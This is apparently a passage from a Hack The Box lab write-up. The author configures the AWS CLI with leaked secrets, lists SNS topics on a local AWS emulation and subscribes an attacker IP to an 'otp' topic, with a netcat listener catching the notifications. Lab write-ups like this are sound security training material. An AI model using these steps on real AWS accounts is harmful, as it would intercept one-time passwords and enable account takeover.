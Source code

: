 These can be setup in the AWS CLI by running `aws configure` and entering the appropriate values when prompted (access key, secret access key, region, etc.).

```bash
# Install awscli packages
$ sudo apt-get install awscli

# Configure awscli to use the identified secrets
$ aws configure
```


# AWS
With the AWS CLI setup with the appropriate secrets, we need to investigate the services being used by the application: S3 and SNS.  Unfortunately, our secrets don't appear to have permission to enumerate S3 buckets, so I moved on to SNS.

After some trial and error, the command below enumerates the available topics in SNS (Simple Notification Service) within AWS.  `--endpoint-url` needs to specify the HTB host as it is running a local instance of the AWS services.  I just added the IP of the device to my /etc/hosts file and pointed it to cloud.htb in this case to match the endpoint seen in the Python scripts.

```bash
$ aws --endpoint-url=http://cloud.htb sns list-topics                                                                                                                                                                       
{
    "Topics": [
        {
            "TopicArn": "arn:aws:sns:us-east-2:000000000000:otp"
        }
    ]
}
```

Reading through the [documentation](https://docs.aws.amazon.com/AmazonCloudWatch/latest/monitoring/US_SetupSNS.html), we can subscribe to the topic using the command below and specifying the HTTP protocol along with our attacking IP.  This way, whenever a notification is sent it will come over port 80 to our machine.  We can monitor for this connection with netcat on port 80 and see any requests that come in.

```bash
$ aws --endpoint-url=http://cloud.htb sns subscribe --topic-arn "arn:aws:sns:us-east-2:000000000000:otp" --protocol http --notification-endpoint http://10.10.14.2
{
    "SubscriptionArn": "arn:aws:sns:us-east-2:000000000000:otp:47ceda90-0699-4142-90b7-acad806a5db6"
}
```

If we have netcat listening when this subscription is submitted, we get a confirmation message from the server for the new subscription.

```bash
$ nc -lvnp 80                                                                                                                                                                                                                 

listening on [any] 80 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.186.201] 38974
POST / HTTP/1.1
Host: 10.10.14.2
User-Agent: Amazon Simple Notification Service Agent
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: text/plain
```